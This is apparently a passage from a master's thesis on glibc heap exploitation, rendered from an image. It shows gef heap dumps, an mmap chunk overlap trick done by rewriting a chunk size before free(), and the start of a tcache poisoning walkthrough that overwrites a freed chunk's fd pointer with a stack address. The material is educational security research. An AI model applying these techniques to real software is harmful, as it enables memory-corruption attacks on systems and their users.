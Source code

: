 \documentclass{masterthesis}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
Chunk(addr=0x555555559010, size=0x20, flags=PREV_INUSE)
  [0x0000555555559010   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................]
Chunk(addr=0x555555559030, size=0x410, flags=PREV_INUSE)
  [0x0000555555559030   0a 43 75 72 72 65 6e 74 20 53 79 73 74 65 6d 20  .Current System ]
Chunk(addr=0x555555559440, size=0x20bd0, flags=PREV_INUSE)  top chunk
\end{lstlisting}
\begin{lstlisting}[language=c,frame=tlrb]
gef p mmap_chunk_2
$1 = (long long *) 0x7ffff7935010
gef p mmap_chunk_3
$2 = (long long *) 0x7ffff7834010
gef p top_ptr
$3 = (long long *) 0x7ffff7ef2010
\end{lstlisting}
Like the previous one, we change the size of the last chunk. The new chunk size is the sum of the size of chunk\_3 and chunk\_2, as the result, the unmmap freezes both areas.
\begin{lstlisting}[language=c,frame=tlrb]
free(mmap_chunk_3);
\end{lstlisting}

In this stage if we allocate a new big chunk, this new big chunk is overlap with chunk\_2 which just has been unmmap without call unmmap directly, as the result, we can write on the chunk2 area with the help of our new chunk.

\section{Tcache poisoning}
This attack is specially designed for tcache bins, As a result, The tcache attack won't work on the older version of libc which does not have tcache. The final goal is to force tcache to return a chunk in a controlled location for example the stack. consider the following code : 
\begin{lstlisting}[language=c,frame=tlrb]
size_t stack_var;
intptr_t *a = malloc(128);
intptr_t *b = malloc(128);
free(a);
free(b);
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2  Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE)  Chunk(addr=0x5555555592a0, size=0x90, flags=PREV_INUSE) 
\end{lstlisting}
The controller location in this sample is a variable inside the stack. In the next step, we allocate and free two chunks. In newer versions of Glibc, this chunk could be added to tcache.
In the second step we overwrite the fd pointer of chunk ‘b’ :
\begin{lstlisting}[language=c,frame=tlrb]
b[0] = (intptr_t)&stack_var;
\end{lstlisting}
\end{document}
